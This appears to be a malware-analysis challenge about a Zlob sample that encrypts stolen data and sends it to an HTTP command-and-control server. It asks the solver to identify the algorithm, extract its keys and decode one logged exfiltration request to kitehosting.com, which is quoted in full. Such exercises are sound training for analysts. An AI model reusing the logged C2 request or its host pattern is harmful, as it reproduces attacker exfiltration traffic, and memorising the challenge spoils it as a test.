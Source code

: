 ```yaml
---
tags: zlob, des, encryption, algorithm-identification
---
```

Consider the sample with the following SHA-256 hash:
```
0b38ca277bbb042d43bd1f17c4e424e167020883526eb2527ba929b2f0990a8f
```
The malware exfiltrates information to an HTTP-based C2 server.

1. Identify the algorithm used to encrypt the exfiltrated data, and extract all related
   cryptographic secrets.
2. Your cousin was infected with this malware and wants to know what data was exfiltrated
   from her machine. She has retrieved a log of all HTTP requests from her firewall and
   provided you the following list. What data was stolen?

```
GET /php/loader4/loaderinfo.php?param=xqyww7ghpyB9okwB35I4tb5ZWlYhHysIW9mUDokgHsrz8smHmXmkxkwmD3DHog8rf8BcBfnmTySHiJzIvtsUMWljqR4F3APXBQZT4f0DosHzk6y5AgkCSrzvrdoEIcBh5PIhBWGQ2CToogW7+6GoqFtdHXwkwqPF HTTP/1.1
User-Agent: Winlogon
Host: kitehosting.com
Cache-Control: no-cache
```
